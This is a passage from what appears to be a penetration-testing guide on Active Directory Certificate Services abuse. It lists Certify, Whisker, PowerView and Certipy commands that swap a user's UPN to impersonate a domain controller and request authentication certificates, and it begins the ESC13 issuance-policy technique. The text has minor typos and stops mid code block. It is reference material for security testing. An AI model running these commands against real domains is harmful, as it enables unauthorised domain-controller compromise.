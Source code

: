     ```bash
    # Find vulnerable/abusable certificate templates using default low-privileged group
    Certify.exe find

    # Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
    Certify.exe find /currentuser
    ```
    Here, user1 has `GenericWrite` against user2 and want to compromise the domain controller `DC$@domain.local`.

    First, the user2's credentials are needed. It can be retrieved via a Shadow Credentials attack, for example. Here just the `msDs-KeyCredentialLink` modification part with Whisker:
    ```bash
    Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
    ```
    Then, the `userPrincipalName` of user2 is changed to `DC$@domain.local` with PowerView.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
    ```
    A certificate permitting client authentication can be requested in a user2 session.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"User"
    ```
    The user2's UPN is changed back to something else.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
    ```
    Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an RBCD to fully compromised the domain controller.
### ESC13: Issuance policiy with privileged group linked
For a group to be linked to an issuance policy via msDS-OIDToGroupLink it must meet two requirements:

- Be empty
- Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

- The controlled principal can enroll to the template and meets all the required issuance policies
- The template specifies an issuance policy
- This policy is linked to a privileged groups via msDS-OIDToGroupLink
- The template allows the Client Authentication in its EKU
- All the usual requirements
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) permits to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty. Additionally, it verifies if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.
    ```bash
    certipy find -u '$USER@$DOMAIN' -p '"$PASSWORD' -dc-ip '$DC_IP'
    ```
    If a vulnerable template is found, there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, request a certificate for this template with Certipy (Python) as usual:
    ```bash